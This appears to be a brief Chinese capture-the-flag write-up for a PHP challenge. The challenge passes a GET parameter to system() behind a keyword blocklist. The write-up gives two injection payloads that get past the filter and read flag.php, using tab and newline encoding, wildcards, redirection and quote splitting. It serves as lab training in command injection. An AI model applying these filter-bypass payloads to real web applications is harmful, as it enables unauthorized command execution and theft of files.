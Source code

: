 # 知识点
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
方法一 ?c=tac%09fla?.php%0a
方法二 ?c=nl<fla''g.php||
```
![image.png](./images/20231017_2350511177.png)
